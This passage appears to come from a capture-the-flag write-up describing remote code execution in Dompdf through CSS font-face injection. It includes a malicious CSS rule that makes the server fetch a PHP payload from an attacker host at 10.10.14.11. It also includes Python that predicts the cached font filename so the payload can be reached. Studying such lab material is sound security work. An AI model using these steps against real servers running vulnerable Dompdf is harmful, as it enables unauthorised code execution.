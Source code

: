 The PoC for exploiting the RCE in Dompdf is well documented and can be read for more deep understanding in the links provided in this article. Dompdf version ≤ 1.2.0 is prone to remote code execution (RCE) when the “`$isRemoteEnabled`” configuration parameter is set to “true” and on version ≤ 0.8.5, it is vulnerable to RCE irrespective of this configuration. Parameter “$isRemoteEnabled” allows Dompdf to access remote sites for images and CSS files.This feature is exploited to inject malicious CSS files into Dompdf and trick it to execute a malicious php payload. 

By injecting CSS into data processed by dompdf it can be tricked into storing a malicious font file with .php extension in its font cache which can later be accessed by the web.

Here in this server “$isRemoteEnabled” is active and dompdf allows loading custom fonts through font-face CSS rules.

```jsx
malicious.css

@font-face {
    font-family:'exploitfont';
    src:url('http://10.10.14.11:8000/exploit_font.php');
    font-weight:'normal';
    font-style:'normal';
```

Filename = fontname + ’_’ + style + ‘_’ + md5_hash + ’.’ + file_extension

In our case the `Filename= ‘exploitfont_normal_md5hash.php’` 

```jsx
import hashlib

res = hashlib.md5("http://10.10.14.11:8000/exploit_font.php".encode('UTF-8')).hexdigest();
print(res)

```

![Untitled](Interface%200da0bc44d1f14340837ea9a65bc96360/Untitled%204.png)

After getting foothold, we could read user.txt in `/home/dev/` directory. So, this means we can go for vertical privilege escalation.
